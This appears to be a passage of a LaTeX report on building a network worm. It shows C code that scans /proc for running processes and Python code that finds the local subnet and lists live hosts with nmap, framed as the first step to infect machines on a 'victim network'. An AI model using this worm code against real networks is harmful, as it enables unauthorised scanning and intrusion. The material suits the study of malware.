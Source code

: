 \begin{codesnippet}[H]
    \caption{Process examining function}
    \label{code:examining_function}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    char proc[300];
		
    struct stat sb;
    sprintf(proc, "/proc/%s", direntp->d_name);
    if (stat(proc, &sb) == -1) break;
    
    int proc_inode = sb.st_ino;
    if (direntp->d_ino != proc_inode) {
        break;
    }
    
    sprintf(proc, "/proc/%s/comm", direntp->d_name);
    FILE *comm;
    comm = fopen(proc, "r");
    if (comm == NULL) break;
\end{lstlisting}


\subsection{Network Propagation}
\label{sec:network_propagation}

The next step on our agenda is to infect other machines on the victim network. First of all, we are dynamically obtaining the IP address of the network of the machine on which our worm is currently running and from which we want to spread further across the network.

\newpage
\begin{codesnippet}[H]
    \caption{Network sniffer}
    \label{code:network_sniffer}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    def get_interface():
        gateways = ni.gateways()
        default_gateway = gateways['default'][ni.AF_INET][1]
        interface = gateways['default'][ni.AF_INET][1]
        return interface

    def get_network(interface):
        addr = ni.ifaddresses(interface)[ni.AF_INET][0]
        network = ipaddress.IPv4Network((addr['addr'], addr['netmask']), strict=False)
        return network

    def net_scan(network):
        try:
            print('Scanning Network')
            # Run nmap and pipe its output to awk
            command = f'nmap -oG - {network} | awk \'/Up$/{{print $2}}\''
            output = subprocess.check_output(command, shell=True, universal_newlines=True)

            # Split the output by newlines to get a list of IPs
            ip_addresses = output.strip().split('\n')
            print('Done!', len(ip_addresses), 'Hosts are up')
            return ip_addresses
        except subprocess.CalledProcessError as e:
            return []
\end{lstlisting}

